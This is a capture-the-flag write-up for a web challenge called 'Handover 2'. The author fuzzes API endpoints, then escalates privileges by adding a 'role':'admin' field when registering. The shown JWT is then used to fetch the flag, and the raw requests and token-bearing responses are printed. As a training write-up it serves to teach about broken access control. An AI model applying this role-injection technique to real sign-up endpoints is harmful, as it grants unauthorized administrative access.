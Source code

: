 #### Handover 2 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e89a29d8-47c0-478c-9d00-4d85cbf0c7d2)

Going over to the url shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/70154cbc-d2bf-4099-bc20-b76d8a6c391e)

I then decided to fuzz for endpoints using feroxbuster and got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a414916b-9db4-4638-9d9a-0f99ec945340)

We have three endpoints

```
/api/register
/api/login
/api/flag
```

When I tried accessing `/api/flag` I got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/10a38899-ea71-4a1a-a12f-a2e13cad5cf6)

To register I first accessed `/api/register` as a `GET` request
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fe3854fa-d7b2-4351-8d74-c529492fc9e6)

So that's the parameter required to register

I used burp to do this

Let us register a user
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/94e202e0-7178-4ff3-a04c-372f0e49da8f)

We can now login
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a8e0e5de-38fe-481c-8857-274a77651f68)

```json
{
"email":"root@root.com",
"firstName":"pwner",
"lastName":"haxor",
"role":"user",
"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InJvb3RAcm9vdC5jb20iLCJpYXQiOjE2ODkxNzY2MzksImV4cCI6MTY4OTE4MDIzOX0.3TPesuZVJ6A5uP4MgGeVzLaVK7wdgIc_RLXa48XWke0"
}
```

Looking at the json response formed we see that role is set to `user` 

We can try to register a user again and set role to `admin`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/dc29ce8a-ae76-4017-b7c2-552202c821aa)

When I logged in it showed this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0f7ac8b9-020e-4d03-a6b7-24d1f33f3c4b)

```json
{
"email":"root@root.io",
"firstName":"pwned",
"lastName":"pwned",
"role":"admin",
"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InJvb3RAcm9vdC5pbyIsImlhdCI6MTY4OTE3Njc3MSwiZXhwIjoxNjg5MTgwMzcxfQ.kDURYuKEuIR1NF2ht-F2R1Zv9sGE5_PLTJjnWv3zNdo"
}
```

It worked and this confirmed a broken access control vulnerability

I can now get the flag using the json web token
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/09494277-3424-406c-a1d5-fd3792fa2468)

```
GET /api/flag HTTP/1.1
Host: 143.198.98.92:9092
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InJvb3RAcm9vdC5pbyIsImlhdCI6MTY4OTE3Njc3MSwiZXhwIjoxNjg5MTgwMzcxfQ.kDURYuKEuIR1NF2ht-F2R1Zv9sGE5_PLTJjnWv3zNdo


```

And I got the flag

```
Flag: csean-ctf{Joan!I_told_you_not_TO_trust_us3r_inputs_buh_YOU_NEVER_LISTEN!}
```
